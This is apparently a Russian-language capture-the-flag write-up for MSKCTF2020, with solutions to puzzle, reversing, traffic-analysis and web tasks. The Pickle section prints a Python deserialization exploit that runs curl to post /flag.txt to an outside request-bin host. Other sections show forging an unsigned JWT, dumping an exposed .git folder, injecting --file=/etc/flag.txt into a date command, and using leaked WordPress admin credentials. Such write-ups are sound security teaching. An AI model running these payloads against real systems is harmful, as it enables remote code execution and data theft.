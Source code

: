 # MSKCTF2020
<details>
    <summary> <b>More-less [PPC]</b></summary>
    <br>
Подключаемся по `nc` к заданию и видим, что от нас требуют угадать число при помощи бинарного поиска, реализацию которого можно написать на python.
</details>
<details>
    <summary><b>Funny Farm [PPC]</b></summary>
    <br>
Прочитав условие задачи можно понять, что это знаменитая игра быки и коровы (она же Mastermind). Существует много способов решения, здесь использовано дерево исходов.
</details>
<details> 
    <summary><b> Simple [RE]</b></summary>
    <br>
Запустив несколько раз исполняемый файл, приходим к выводу, что зашифрованное значение символа не зависит от последующих. Значит, можно перебирать флаг посимвольно, сверяясь с содержимым файла `output.txt`.
</details>
<details> 
    <summary><b>Keycap [MISC]</b></summary>
    <br>
Изучив `dump.pcap` с помощью wireshark, понимаем, что перед нами находится usb capture. По запросу "ctf usb capture" находим скрипт https://ctf-wiki.github.io/ctf-wiki/misc/traffic/protocols/USB/ и запускаем: `python ./script.py dump.pcap`.
Вывод:


`[+] Found : keycap.tasks.2020.ctf.cs.msu.ru<RET>eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJzZXRGbGFnIjoiVHJ1ZSIsInNob3dGbGFnIjoiRmFsc2UifQ.<RET>`


Видим url и JWT токен. Пробуем отправить токен в форму на http://keycap.tasks.2020.ctf.cs.msu.ru и получаем ответ


>Flag is already set!


Разбираемся в чем дело. Пробуем раздекодить токен в base64 - `{"typ":"JWT","alg":"none"}.{"setFlag":"True","showFlag":"False"}`. Видим, что токен ничем не подписан и его можно изменять как хочется. Если установить `{"setFlag":"False","showFlag":"True"}` и сдать вновь полученный токен, сервис отдаст флаг.
</details>
<details> 
    <summary><b>Display I,II [MISC]</b></summary>
    <br>
Просмотрев гифку замечаем, что считыванию qr кода мешают пиксели, которые не меняются на протяжении всей гифки. Значит нужно собрать QR код учитывая их расположение.

Прежде всего, гифку надо разбить по кадрам на картинки в формате jpg (для работы с OpenCV). Это делается с помощью онлайн конвертеров. Теперь можно приступать к написанию скрипта.

Открываем любое изображение из папки с кадрами гифки. Оно будет испольховаться для создания маски изменяющихся пикселей. Затем берем выборку кадров гифки(я взял кадры с кодом, но по сути можно взять любые другие, важно количество). Проходимся по выборке и ищем пиксели, которые от кадра к кадру меняются и отмечаем их на изображении-маске зеленым цветом. После завершения  анализа выборки, получаем изображение-маску, где зеленым отмечены пиксели не подверженные помехам. Открываем изображение, в которое будет записываться итоговый код, определяем область куда он будет записываться и обводим эту область белой рамкой, тк отступ вокруг кода является обязательным условием для сканирования(как выяснилось, хватило верхнего и  правого отступа). Далее берем выборку кадров с проходом qr кода, находим координаты кода на первой картинке и на сколько пискелей код сдвигается с каждым кадром. Учитывая это, анализируем в каждом изображении область в которой находится код следующим образом: если пикслель кода совпадает с зеленым пикселем маски, то переносим этот пиксель на итоговое изображение, учитывая его цвет для создания черно белого кода. Проанализировав таким образом всю выборку прохода кода, получаем готовый читаемый код. Скрипт работает как для Display I, так и для Display II.
</details>
<details> 
    <summary><b>Pickle [WEB]</b></summary>
    <br>
Сразу после прочтения названия таска становится понятно, что он будет связан с "опасной" сериализацией в модуле pickle.

Немного осмотрев сервис, понимаем, что у нас есть возможность кастомизировать внешний вид текста на главной странице путем изменения параметров на /customize, которые в свою очередь сохраняются в куках. На этой же странице и происходит сериализация. Теперь нужно написать/нагуглить эксплойт. 

В интернете достаточно примеров эксплойтов, однако в процессе эксплуатации становится понятно, что некоторые модули(например, builtins) забанены, нужно искать другие пути. 

На странице документации пикла узнаем о возможности использования разных протоколов(0-5), отличающихся своей новизной. Попробуем наш эксплойт с 0ым протоколом.

```
import pickle
import base64

class Exp(object):
    def __reduce__(self):
        return (eval, ("""__import__('os').system('curl  http://pomo-mondreganto.me/request_bin/bin/3a7af4223a')""",),)


shellcode = pickle.dumps(Exp(), protocol=0)
print(base64.b64encode(shellcode))
```

Для этого пытаемся сделать eval(), c помощью которого импортируем os и вызваем system(). Следующая часть пейлоада - попытка отправить себе запрос на request-bin через curl. Копируем полученный base64 и заменяем значение куки custom_style.

Получаем запрос, значит эксплойт сработал. Осталось отправить себе флаг, однако для этого нужно понять, где он лежит. Пробуем несколько раз, получаем флаг. Для отправки файла себе я использовал опцию --data-binary.


#### Финальный эксплойт:
```
import pickle
import base64

class Exp(object):
    def __reduce__(self):
        return (eval, ("""__import__('os').system('curl --data-binary @"/flag.txt" http://pomo-mondreganto.me/request_bin/bin/3a7af4223a')""",),)


shellcode = pickle.dumps(Exp(), protocol=0)
print(base64.b64encode(shellcode))
```
#### В результате должен прийти такой запрос:

![Request example](https://github.com/WATyag/MSKCTF2020/blob/master/pickle/requestbin.jpg)
</details>
#### Beta release [WEB]

Таск представляет из себя сервис, целью которого видимо является троллинг участников, так как при попытке получить абсолютно любой флаг мы получаем один и тот же ответ - "Такой флаг еще не подвезли :(". Что же, попробуем разобраться и найти настоящий флаг, утерев нос обидчикам!

Первичный анализ обширных возможностей таска не дал нам никаких интересных результатов, поэтому попробуем поискать "поглубже", используя dirsearch.

`python3 dirsearch.py -u http://beta-release.tasks.2020.ctf.cs.msu.ru/ -e php html js`

```
Target: http://beta-release.tasks.2020.ctf.cs.msu.ru/

[14:44:22] Starting:
[14:44:22] 400 -  182B  - /%2e%2e/google.com
[14:44:22] 200 -   12B  - /.git/COMMIT_EDITMSG
[14:44:22] 200 -  137B  - /.git/config
[14:44:22] 200 -   73B  - /.git/description
[14:44:22] 200 -  691B  - /.git/index
[14:44:22] 200 -   23B  - /.git/HEAD
[14:44:22] 200 -  250B  - /.git/info/exclude
[14:44:22] 200 -   10KB - /.git/logs/refs/heads/master
[14:44:22] 200 -   56KB - /.git/logs/HEAD
[14:44:22] 200 -   41B  - /.git/refs/heads/master
[14:44:22] 200 -   54B  - /.gitignore
[14:44:22] 200 -   54B  - /.gitignore/
[14:44:27] 200 -    2KB - /contacts
```

Проанализировав результаты понимаем, что разработчики "забыли" удалить гит репозиторий. Попробуем сдампить его, для этого воспользуемся тулзой git-dumper. Далее войдя в папку со скачанным репозиторием, посмотрим историю коммитов:


`git log`

Листая историю коммитов замечаем следующее:

```
commit e9d0319984c8ea23b61ebd83da25507c973d19d1
Author: Ivan Gorsky <kek@hotmail.com>
Date:   Wed Mar 11 22:22:31 2020 +0300

    метод получения флага
    флаг для тестирования
```

Интересно, посмотрим сами изменения:

`git show  e9d0319984c8ea23b61ebd83da25507c973d19d1`


```
commit e9d0319984c8ea23b61ebd83da25507c973d19d1
Author: Ivan Gorsky <kek@hotmail.com>
Date:   Wed Mar 11 22:22:31 2020 +0300

    метод получения флага
    флаг для тестирования

diff --git a/main.py b/main.py
index cf4d6c8..1a127ae 100644
--- a/main.py
+++ b/main.py
@@ -1,22 +1,41 @@
 from flask import Flask
 from flask import render_template
+from flask import request

 app = Flask(__name__, template_folder="templates/", static_folder="./")

+flags = {
+    'alpha-version': 'MSKCTF{l34v1g_g1t_f0ld3r_1s_t00_b4d_id34_l0l}',
+    'keycap': '',
+    'happy_new_rtfm': '',
+    'Le Coq': '',
+    'This is the way': '',
+    'pickle': '',
+    'librecloud': '',
+    'corehard': '',
+    'crypto-300': '',
+    'Turtle': '',
+    'Funny Farm ': ''
+}
+
...
```
#### Happy new RTFM [WEB]

На главной странице таска нас встречает обратный отсчет до нового года. Попробуем разобраться как он работает. 

Файл utils.js отправляет запрос /get_date.php, где через  переменную fmt указывает формат времени. get_date.php возвращает текущее время в заданном формате, после чего расчитывается оставшееся время до нового года и запускается таймер.

В самом таймере нет ничего интересного, а вот возможность передавать данные get_date.php выглядит перспективно.

Отправляя туда всякий шлак в попытках разобраться, что именно выполняет данный скрипт, получаем следующий ответ:

```
HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Fri, 10 Apr 2020 12:41:25 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
X-Powered-By: PHP/7.4.0
Content-Length: 68

date: invalid option -- 'l'
Try 'date --help' for more information.
```

Тут же понимаем, что это вывод date Linux. Попробуем отправить --help:

```
HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Fri, 10 Apr 2020 12:45:49 GMT
Content-Type: text/html; charset=UTF-8
Content-Length: 4704
Connection: close
X-Powered-By: PHP/7.4.0
Vary: Accept-Encoding

Usage: date [OPTION]... [+FORMAT]
  or:  date [-u|--utc|--universal] [MMDDhhmm[[CC]YY][.ss]]
Display the current time in the given FORMAT, or set the system date.

Mandatory arguments to long options are mandatory for short options too.
  -d, --date=STRING          display time described by STRING, not 'now'
      --debug                annotate the parsed date,
                              and warn about questionable usage to stderr
  -f, --file=DATEFILE        like --date; once for each line of DATEFILE
  -I[FMT], --iso-8601[=FMT]  output date/time in ISO 8601 format.
                               FMT='date' for date only (the default),
                               'hours', 'minutes', 'seconds', or 'ns'
```

Замечаем опицию -f , умеющую читать дату из файла. Это выглядит как то, что нам нужно. Отправим --file=/etc/flag.txt :

![burp request](https://github.com/WATyag/MSKCTF2020/blob/master/Happy%20new%20RTFM/burp.jpg)

#### Incident [WEB]

Исследуя таск замечаем, что подключеный к странице not-a-flag.js, который блокируется правилами csp. Также делается запрос на /csp-reports, где помимо прочего передается uri заблокированного файла. Ответ на этот запрос таков:

```
HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Fri, 10 Apr 2020 12:12:58 GMT
Content-Type: text/plain
Content-Length: 96
Connection: close
Content-Security-Policy: script-src 'self' 'unsafe-inline' https://code.jquery.com/ https://cdnjs.cloudflare.com/ https://maxcdn.bootstrapcdn.com/; report-uri /csp-reports

DEBUG: the js /not-a-flag.js with content 'This file does not contain a flag' is blocked by CSP
```

Стоит отметить, что при попытке перейти на /not-a-flag.js таск возвращает 404. Попробуем перехватить запрос через burp и заменить "not-a-flag.js" на что-то более интересное. 

Пробуем 'flag.txt', получаем:

```
HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Fri, 10 Apr 2020 12:22:43 GMT
Content-Type: text/plain
Content-Length: 58
Connection: close
Content-Security-Policy: script-src 'self' 'unsafe-inline' https://code.jquery.com/ https://cdnjs.cloudflare.com/ https://maxcdn.bootstrapcdn.com/; report-uri /csp-reports

DEBUG: the js /flag.txt with content '' is blocked by CSP
```

Быть может, flag.js? Ведь изначально к странице подключался javascript файл. Ответ:

![burp request](https://github.com/WATyag/MSKCTF2020/blob/master/Incident/burp.jpg)

#### Truth News [WEB/OSINT]

*До хинта*

Тупим, тыкаемся во все, что попадется на глаза, толком не понимаем, что нужно делать.

*Хинт* 

`Hint: Мы знаем, что автор сайта любит снимать челленджи для соцсетей и плохо запоминает пароли.`

*После хинта*

 Понимаем очевиднейший(учитывая содержаение сайта) намек на тикток, ищем там пользователя с таким же ником(covidbuster), находим в его профиле видео, где совершенно случайно палится логин и пароль(login - covidbuster; password - CTF_p@ssw0rd):
 
 ![Tik-Tok](https://github.com/WATyag/MSKCTF2020/blob/master/Truth%20News/tikitikitok.jpg)
 
 Учитывая, что таск написан с использованием wordpress, нетрудно догадаться, что перед нами логин и пароль от админки. Ищем ее через dirsearch или гуглим дефолтный роут(его также можно найти на /?page_id=2) - "/wp-admin".

 Заходим в админку, замечаем установленный плагин WP File Manager. Меняем в его настройках "Public Root Path" на "/", находим флаг.
